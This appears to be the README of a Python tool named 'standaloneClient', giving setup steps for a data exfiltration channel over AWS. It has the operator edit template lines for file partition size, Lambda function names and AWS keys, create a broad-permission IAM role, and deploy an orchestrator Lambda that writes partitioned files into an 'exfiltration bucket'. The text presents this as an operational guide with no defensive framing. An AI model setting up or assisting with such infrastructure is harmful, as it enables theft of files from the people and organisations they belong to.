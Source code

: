 # standaloneClient
## Usage
`py clientName.py "Path_to_file"`
## Setup

Here we will discuss how to set up a working client for data exfiltration.

###### Note 1: Use python 3.x
###### Note 2: Be careful when using AWS Regions, specially when creating lambda functions and S3 buckets.
###### Note 3: Try to follow the steps in order

##### Client Setup
Open `standaloneClient_template.py` and modify the following lines with desired values.  

*Line 11*  Modify partition size  
`partitionSize = 100 #Change for desired partition size`  
*Line 42*  Modify Orchestrator function name (Remember it)  
`orq_response = self.aws_lambda.invoke(FunctionName = '<ORCHESTRATOR_FUNCTION_NAME>', Payload = orqPayload_json)`  
*Line 85* Modify with AWS Keys  
`client.awsConnect('<ACCESS_KEY_ID>','<SECRET_ACCESS_KEY_ID>','<REGION>')`  

##### IAM Console
Go to AWS IAM console and create a role (Remember the ARN name) with the following permissions:  

- AWSLambdaFullAccess
- AmazonS3FullAccess
- CloudWatchFullAccess

##### S3 Console
We will now create 2 buckets.  
The **exfiltration bucket** in which we will save out exfiltrated files (their partitions).  
The **template bucket** in which we will save the template used for creating the lambda functions required.  
(If the above sounds like gibberish, refer to the explanation on how the exfiltration works)  

Create 2 buckets with default config and remember their names. One will be used for exfiltration and the other one for our templates.  

##### Sample Function Setup
Open `sampleFunction_template.py`.  
*Line 6*  Modify with the exfiltration bucket name  
`bucket_name = "<EXFILTRATION_BUCKET_NAME>"`  

Compress the function and upload it to the template bucket created before. Remember the compressed function name. We should now have a sampleFunction_template.zip inside our template bucket.  

##### Lambda console setup
Create a lambda function called `<Insert orchestrator name>`.  
Give the function the role previously created. This can be done by scrolling down a bit one the function is created.  

Copy and paste the contents of `orchestrator_template.py` into the newly created lambda function.  

*Line 26*  Modify IAM Role ARN  
`Role = '<LAMBDA_S3_IAM_ROLE>'`  
*Line 29*  Modify Template Bucket Name  
`'S3Bucket': '<TEMPLATES_BUCKET>'`  
*Line 30* Modify Compressed function name  
`'S3Key': '<COMPRESSED_FUNCTION_NAME>'`  

Increase the timeout of this function to 1 minute and memory to 512MB  
